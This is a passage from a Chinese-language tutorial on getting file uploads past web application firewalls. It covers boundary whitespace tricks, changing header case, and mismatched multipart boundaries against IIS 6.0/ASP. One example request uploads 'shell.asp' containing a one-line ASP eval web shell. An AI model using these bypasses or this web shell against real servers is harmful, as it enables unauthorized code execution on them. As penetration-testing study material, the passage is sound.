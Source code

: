 ```php
Content-Type: multipart/form-data; boundary=—————————4714631421141173021852555099
```

尝试在boundary后面加个空格或者其他可被正常处理的字符：

```php
boundary= —————————47146314211411730218525550
```

##### 修改Content-Disposition字段值的大小写

![img](assets/202304161628315.png)

##### Boundary边界不一致

每次文件上传时的Boundary边界都是一致的：

```php
Content-Type: multipart/form-data; boundary=---------------------------4714631421141173021852555099
Content-Length: 253
-----------------------------4714631421141173021852555099
Content-Disposition: form-data; name="file1"; filename="shell.asp"
Content-Type: application/octet-stream <%eval request("a")%> -----------------------------4714631421141173021852555099--</pre>
```

但如果容器在处理的过程中并没有严格要求一致的话可能会导致一个问题，两段Boundary不一致使得waf认为这段数据是无意义的，可是容器并没有那么严谨：

Win2k3 + IIS6.0 + ASP

![img](assets/202304161628684.png)
